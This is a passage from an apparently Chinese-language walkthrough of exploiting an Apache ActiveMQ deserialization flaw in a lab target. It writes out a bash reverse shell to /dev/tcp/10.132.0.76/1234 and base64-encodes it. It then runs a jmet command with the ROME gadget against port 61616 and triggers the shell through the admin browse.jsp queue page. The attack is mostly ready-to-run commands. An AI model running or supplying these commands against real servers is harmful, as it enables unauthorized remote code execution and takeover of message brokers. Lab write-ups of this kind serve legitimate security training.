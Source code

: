 ![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZFpBot2rUX9dYlere6xKpMqKILX0cbqN1OhjibpbQq089W157XDoz7ow/640?wx_fmt=png&from=appmsg "")  
  
  
替换为自己的IP，构造反弹shell语句  

```
bash -i >& /dev/tcp/10.132.0.76/1234 0>&1
```

  
然后base64编码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5Z39ibj7RYD0sQEDVvH6Z9BkWic1cm2uLKpN8prfRvJb5GPicuw6Oa1Im6w/640?wx_fmt=png&from=appmsg "")  
  
  

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC43Ni8xMjM0IDA+JjE=
```

  
  
使用下载的工具，替换base64编码和靶机IP端口  
  
10.22.221.151为靶机IP，61616端口为ActiveMQ的工作端口用来传递消息  
  
  
终端运行命令  

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y &#34;bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC43Ni8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}&#34; -Yp ROME 10.22.221.151 61616
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZZlUy4M5IL8GUaZwBl4y7BTnCuUXFIEIy9vBswxQMIqUyft3xjiaVVBw/640?wx_fmt=png&from=appmsg "")  
  
  
这个工具运行成功之后，会给目标ActiveMQ添加一个名为event的队列  
  
  
同时监听本机端口1234  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZBEvictT1pMQKvvaSfthicaOsCZRkoW7bKJ7sj7VNCNP0QYkYKx41pX5g/640?wx_fmt=png&from=appmsg "")  
  
  
接下来，我们只要去访问这个消息队列，点击触发就可以反弹shell  
  
  
访问路径页面 /admin/browse.jsp?JMSDestination=event  

```
http://10.22.221.151:8161/admin/browse.jsp?JMSDestination=event
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZGTBDf25pjiaxSDyXk5KVL6f00aslUVOV0WzB2XiaJK7UVQ6OvNeo3eKA/640?wx_fmt=png&from=appmsg "")  
  
  
点击查看Message ID  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZARgfCGxYVl4cBRk29ms9ic61X9icibxz6oFoqVDA2jHOFwSwAVZ3NS33g/640?wx_fmt=png&from=appmsg "")  
  
  
  